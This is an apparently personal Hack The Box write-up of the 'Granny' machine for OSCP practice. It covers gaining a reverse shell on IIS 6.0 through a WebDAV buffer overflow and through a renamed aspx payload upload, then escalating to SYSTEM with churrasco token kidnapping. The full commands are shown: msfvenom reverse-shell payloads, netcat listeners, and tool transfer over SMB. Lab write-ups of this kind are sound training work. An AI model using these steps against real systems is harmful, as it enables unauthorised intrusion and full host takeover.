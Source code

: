 ```yaml
---
title: "Hack The Box - Granny"
date: 2020-01-31
tags: [oscp, htb, windows]
collection: oscp-prep
published: true
layout: single
classes: wide
toc: true
toc_label: Table of Contents
headline: "Exploiting IIS WebDAV and Token Kidnapping (no MSF)"
picture: /assets/htb-granny/machine_info.png
author_profile: true
---
```


> NOTE: This write-up is part of a set, with the other being Grandpa. Since the boxes are so similar, but the easy way to root is via Metasploit, I decided to do one with MSF, and one without. Grandpa will be done with Metaspliot, and Granny done without Metasploit, in order to better practice for the OSCP.

![](/assets/htb-granny/machine_info.png)

## Enumeration

Our initial Nmap scans show that only port 80 is open, running IIS 6.0. This means we're looking at a Windows Server 2003 system. Also, note that the `http-webdav-scan` section shows that WebDAV is enabled on the web server, and lists the commands available for us to use.

```
Nmap scan report for 10.10.10.14
Host is up, received user-set (0.053s latency).
Scanned at 2020-01-30 17:13:15 EST for 151s
Not shown: 65534 filtered ports
Reason: 65534 no-responses
PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Microsoft IIS httpd 6.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT POST MOVE MKCOL PROPPATCH
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   WebDAV type: Unknown
|   Server Date: Thu, 30 Jan 2020 22:16:22 GMT
|_  Server Type: Microsoft-IIS/6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Since we're looking at a WebDAV system, we can use `davtest` to see what we can posibly upload and execute on the server. The `davtest -url http://10.10.10.15` will kick off the script for us. According to the results, we can only *execute* `html` and `txt` files, but can upload executable files like `cfm`, `php`, `pl`, and `jsp`.

![](/assets/htb-granny/davtest.png)

---

## Initial Shell

This box has 2 methods of remote exploitation on WebDAV. One is manual, and more OSCP-like. The other is a cut-and-dry CVE with custom shellcode. I'll cover both here.

### Microsoft IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow

If you read the Grandpa write-up, you'll see that the Metasploit module we ran exploited a remote buffer overflow in IIS. [We can find the manual version of this exploit here](https://www.exploit-db.com/exploits/41738). However, this code is formatted to only launch calc.exe locally. We can instead use [this exploit](https://raw.githubusercontent.com/g0rx/iis6-exploit-2017-CVE-2017-7269/master/iis6%20reverse%20shell), using the same method as the first. Let's save it locally as `exploit.py`, and run it with `python exploit.py 10.10.10.15 80 10.10.14.35 7500`. Make sure you kick off a listener with `nc -lvnp 7500` before launching the exploit.

![](/assets/htb-granny/iis_exploit_shell.png)

As you can see, we get back the reverse shell!

### WebDAV manual  exploit

The second method we can use for manual exploitation involves using the WebDAV server against itself. 

Before starting, we'll need a custom payload that we can upload to the WebDAV server. The command `msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.35 lport=7500 -f aspx -o shell.aspx` will create a reverse shell payload, in `aspx` format that we can use for exploitation.

We can use the `cadaver` tool to help us upload and move stuff around on the WebDAV server. We can connect with `cadaver http://10.10.10.15`, and type `ls` to view a directory listing.

![](/assets/htb-granny/cadaver_connect.png)

Before we start, let's go over how this will work.

Since we know that the system won't *execute* anything but `html` and `txt`, we need to trick IIS into thinking it's actually a valid file. We can do this by exploiting the ability to `MOVE` and `COPY` the file in WebDAV, which will allow us to rename the extension.

We can upload the shell with cadaver by typing `put shell.aspx`. However, you can see that the system won't accept this.

![](/assets/htb-granny/cadaver_put_aspx_fail.png)

We can use `cp shell.aspx shell.txt` locally to copy the file to plain text, and try uploading it again with cadaver. This time it works.

![](/assets/htb-granny/cadaver_put_txt_good.png)

We can now `MOVE` the file with `move shell.txt shell.aspx`.

![](/assets/htb-granny/cadaver_move.png)

Now start a listener with `nc -lvnp 7500`, and call the script with `curl http://10.10.10.15/shell.aspx`.

![](/assets/htb-granny/curl_shell.png)

We got our shell!

---

## Privilege Escalation

### Enumeration

We should do some basic enumeration of the target, to better see what we can run to grab `SYSTEM`.

The `whoami` and `whoami /priv` commands tell us we're running as `NETWORK SERVICE`, and have the critical `SeImpersonatePrivilege` privilege enabled.

![](/assets/htb-granny/whoami_privs.png)

Running `systeminfo` gives us the below result.

![](/assets/htb-granny/system_info.png)

### Have some churrasco

Seeing that we have the `SeImpersonatePrivilege` privilege enabled on this account is key, as it means that we can probably use a method called *Token HIjacking*. Basically, Server 2003 allows for the `NETWORK SERVICE` and `LOCAL SERVICE` accounts to impersonate the `SYSTEM` account, if this privilege is enabled. [This presentation gives a great breakdown of it in a more technical sense](https://dl.packetstormsecurity.net/papers/presentations/TokenKidnapping.pdf).

The well-known exploit for this attack is called `churrasco.exe`, and can be [found here](https://github.com/Re4son/Churrasco). We can download the `churrasco.exe` locally with `wget https://github.com/Re4son/Churrasco/raw/master/churrasco.exe`, and launch an SMB server with `sudo impacket-smbserver kali .`. This SMB server will allow us to easily get the EXE onto the target.

![](/assets/htb-granny/wget_smbserver.png)

On the target, we need to create the `C:\temp` directory with the below commands. This gives us a writable location to work from.

```shell
cd C:\
mkdir temp
cd temp
```

We can download the file from the SMB server with `copy \\10.10.14.35\kali\churrasco.exe`.

We can run the exploit with `churrasco.exe`, which tells us that the proper usage should be `churrasco.exe -d "command to run"`. We can test this with `churrasco.exe -d "whoami"`, which returns that the command did in fact run as `SYSTEM`.

![](/assets/htb-granny/churrasco_example.png)

Now we just need to use the tool to launch `cmd.exe` as `SYSTEM` with `churrasco.exe -d "cmd.exe"`. As you can see form the results, it's not ideal. It seems we got a single line to run as `SYSTEM`, then it went back to `NETWORK SERVICE`.

![](/assets/htb-granny/churrasco_shell_shaky.png)

To bypass this, we can simply make another `msfvenom` payload as an EXE, transfer it to the target, and ask our exploit to run that as `SYSTEM`.

The payload can be created with `msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.35 lport=7700 -f exe -o revshell.exe`. We can start another listener with `nc -lvnp 7700`, and copy the new payload to the target with our previous SMB server method.

We can run the exploit with `churrasco.exe -d "C:\temp\revshell.exe"` Note that we have to specify the entire path, as `churrasco` tries to look in `C:\WINDOWS\TEMP` by default. As you can see, we get back our `SYSTEM` shell on our listener.

![](/assets/htb-granny/churrasco_revshell.png)

![](/assets/htb-granny/system_shell.png)

All that's left now is to grab flags.

You can find `user.txt` at `C:\Documents and Settings\Lakis\Desktop\user.txt`

![](/assets/htb-granny/user_proof.png)

You can find `root.txt` at `C:\Documents and Settings\Administrator\Desktop\root.txt`

![](/assets/htb-granny/root_proof.png)








